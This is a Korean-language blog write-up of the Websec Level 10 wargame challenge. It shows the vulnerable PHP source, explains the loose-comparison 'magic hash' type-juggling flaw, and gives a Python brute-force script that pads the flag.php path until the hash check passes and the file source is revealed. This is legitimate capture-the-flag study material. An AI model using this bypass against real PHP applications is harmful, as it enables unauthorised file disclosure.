```yaml
---
title : "Websec - Level 10"
excerpt : "Websec - Easy Level 10 (풀이봄..)"
toc: true
toc_sticky: true
categories:
  - Websec
tags:
  - type juggling
  - magic hash
---
```


## 1. Source code
<img src="/assets/images/websec-level 10.jpg">
``` php
if (isset ($_REQUEST['f']) && isset ($_REQUEST['hash'])) {
    $file = $_REQUEST['f'];
    $request = $_REQUEST['hash']; // default: substr(md5($flag.'index.php'.$flag),0,8) -> b4382d64
    $hash = substr (md5 ($flag . $file . $flag), 0, 8);
    echo '<div class="row"><br><pre>';
    if ($request == $hash) {
        show_source ($file);
    } 
    else {
        echo 'Permission denied!';
    }
    echo '</pre></div>';
}
```

## 2. Vulnerability

flag.php 파일을 확인을 해야하므로 $file 값은 flag.php가 되고, 입력한 해쉬 값과 $hash 변수 값을 비교하는 부분을 통과를 해야함.  
여기서 **magic hash**란 것이 있다. md5 해쉬 암호화를 했을 때, 0e1234 이런 식으로 암호화 되는 경우가 있는데 0e로 시작하면 그 값은 0과 같음. 이 점을 이용해서 풀 수 있음.  
'0e12345' == 0 --> true

## 3. Solution
파일 이름에 따라 $hash 값이 바뀌게 되는데 flag.php 파일은 읽어야 되므로 '.' 과 '/'을 붙여줘서 브루트 포스를 하면 됨. 한 870번 조금 넘어설때 쯤 됨.


```python
import requests

url='http://websec.fr/level10/index.php'
string='flag.php';
headers={'Content-Type':'application/x-www-form-urlencoded'}
for i in range(1,1000) :
    data={'f':string,'hash':0}
    res=requests.post(url,data=data,headers=headers)
    if("Permission denied!" not in res.text):
        print(res.text)
        break
    print("fail.. "+str(i)+" trying")
    string='.'+'/'*i+'flag.php'
```